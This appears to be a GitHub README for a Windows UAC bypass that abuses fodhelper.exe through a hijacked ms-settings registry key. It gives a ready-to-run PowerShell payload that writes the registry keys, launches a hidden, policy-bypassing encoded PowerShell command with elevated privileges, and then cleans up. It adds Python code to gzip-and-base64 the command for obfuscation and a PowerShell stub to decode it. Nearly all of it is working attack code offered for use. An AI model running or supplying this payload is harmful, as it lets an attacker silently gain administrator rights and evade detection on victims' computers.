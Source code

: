 # Theory

> Unlock hidden doors with trust as your key

### Vulnerability

fodhelper.exe itself does not execute registry keys per se; However, it reads certain registry keys to determine its behavior. By misusing the "ms-settings" key, we can potentially get fodhelper to run values within a key

fodhelper.exe is designed to run with elevated privileges without prompting the user with a uac

### Raw Payload

```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command"
reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f

fodhelper.exe

Start-Sleep -s 3
reg delete "HKCU\Software\Classes\.hacker\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
or
```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command";reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f;reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f;fodhelper.exe;Start-Sleep -s 3;reg delete "HKCU\Software\Classes\.hacker\" /f;reg delete "HKCU\Software\Classes\ms-settings\" /f;
```

### Encryption and Encode

<b>I know it's corny, but compression is a form of encryption</b>

We want to compress and encode this command to where powershell can decompress

Compression often generates unwanted characters, so we will also encode after compressing

```python
# Please forgive me, I hate leaving comments
# The code should speak for itself

import gzip

def compress_and_base64(input):
    # Convert string to bytes
    bytes = input.encode('utf-8')

    # Initialize buffer
    buffer = io.BytesIO()

    # Compress stream with gzip
    with gzip.GzipFile(fileobj=buffer, mode='wb') as file:
        file.write(bytes)

    # Save stream to variable
    compressed = buffer.getvalue()

    # Encode, so invisble characters are saved
    encoded = base64.b64encode(compressed)

    # Convert bytes to string
    return encoded.decode('utf-8')
```

<b>Extraction Method</b>

```powershell
# Decode and Decompress
# Output will be a string

(New-Object IO.Compression.GZipStream(

    # Decode
    [System.IO.MemoryStream][Convert]::FromBase64String($COMPRESSED_DATA_HERE),

    # Decompress stream with Gzip
    [System.IO.Compression.CompressionMode]::Decompress

) |

# % is shorthand for "foreach-object"

%{

    # Read from gzip stream, convert to ascii
    New-Object System.IO.StreamReader($_, [System.Text.Encoding]::ASCII)

# Convert all to single string
}).ReadToEnd() 
```

or

```powershell
(New-Object IO.Compression.GZipStream([System.IO.MemoryStream][Convert]::FromBase64String(COMPRESSED_DATA_HERE), [System.IO.Compression.CompressionMode]::Decompress) |%{New-Object System.IO.StreamReader($_, [System.Text.Encoding]::ASCII)}).ReadToEnd()
```
